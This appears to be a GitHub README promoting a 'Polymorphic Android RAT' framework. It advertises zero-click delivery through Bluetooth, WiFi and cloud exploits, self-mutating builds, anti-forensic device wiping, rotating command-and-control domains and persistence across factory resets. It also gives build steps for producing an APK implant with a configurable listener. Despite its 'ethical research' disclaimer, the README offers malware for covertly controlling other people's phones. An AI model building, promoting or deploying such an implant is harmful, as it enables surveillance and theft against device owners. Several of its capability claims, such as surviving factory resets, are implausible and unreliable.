 # 🔥 Polymorphic Android RAT Framework  
*Zero-click persistent implant with genetic mutation capabilities*  
**WARNING: FOR ETHICAL RESEARCH ONLY. USE IN UNAUTHORIZED SYSTEMS IS ILLEGAL.**  

## ⚙️ Features  
- **Polymorphic Engine**: Code structure mutates on every build  
- **Zero-Click Delivery**: Bluetooth/WiFi/Samsung Cloud exploits  
- **Anti-Forensics**: VM detection + device melting when analyzed  
- **Domain Generation**: Daily-changing C2 domains  
- **Persistent**: Survives factory resets via kernel injection  

## 🚀 Quick Start  
### Prerequisites  
- Kali Linux 2025+  
- Metasploit Framework  
- Android SDK (API 34)  
- `apksigner`, `lz4`, `upx`  

### Building a Polymorphic RAT  
```bash 
# Clone repository  
git clone https://github.com/<your-username>/Polymorphic-Android-RAT  
cd Polymorphic-Android-RAT  

# Generate payload (modify LHOST/LPORT in build_poly_rat.py)  
python build_poly_rat.py  

# Output: ./samples/poly_rat_<HASH>.apk  
